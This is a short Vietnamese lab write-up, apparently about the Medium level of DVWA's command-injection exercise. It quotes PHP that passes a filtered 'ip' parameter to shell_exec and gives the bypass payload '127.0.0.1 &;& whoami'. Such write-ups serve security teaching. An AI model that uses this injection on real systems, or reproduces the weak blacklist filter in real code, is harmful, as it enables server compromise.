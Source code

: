 ## Security level: Medium
### Method 
- Level này `parameter` 'ip' đã được kiểm tra, nhưng filter rất đơn giản. 
### Mã nguồn gây lỗi (Vulnerable Code)
```
$substitutions = array(
                                    '&&' => '',
                                    ';'  => '',
            );
            $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
            $cmd = shell_exec( 'ping  ' . $target );
```
### Các bước khai thác (Proof of Concept)

- **Payload:**  
```bash
127.0.0.1 &;& whoami
```
- **Kết quả mong đợi:**  
Trang web trả về kết quả của lệnh `whoami`

### Screenshots
<img width="2559" height="1335" alt="image" src="https://github.com/user-attachments/assets/b001397c-d73f-40af-a211-0b7a1e1088c1" />
### Mô tả



